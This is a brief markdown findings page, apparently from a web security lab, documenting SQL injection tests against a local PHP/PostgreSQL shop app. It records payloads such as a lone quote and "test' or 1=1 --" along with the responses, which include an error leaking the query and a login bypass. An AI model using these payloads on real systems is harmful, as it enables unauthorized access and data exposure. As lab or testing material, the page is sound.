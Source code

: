 # Responses

## Technology used
* PHP/7.2.24 from Index.php, loginform.php, signup.php extensions and X-Powered-By header
* PostgresSQL database: From error response in login (pg_query)

## Injection targets


| Url | Input Parameter | Method | Response |
| ----  | ----------------- | --------- | -------- |
| http://:8080/products/search.php | product: ‘ |	GET	| An error occurred. |
| http://:8080/products/search.php | product: test' or 1=1 -- | GET | Product list: Product: phone Description: 5G enabled phone Product: phoneXL Description: 5G enabled phone |
| http://:8080/products/search.php | product: *| GET| Product List: |
| http://:8080/login.php|username: test<br>password:‘ |POST | Warning: pg_query(): Query failed: ERROR: unterminated quoted string at or near "'''" LINE 1: ...unt(*) FROM users WHERE username = 'test' AND password = ''' ^ in /var/projects/ecommerce/login.php on line 12 <br> An error occurred. Unable to authenticate you Back home |
| http://:8080/login.php| username: test<br>password: test' or 1=1 -- |POST |Welcome! |
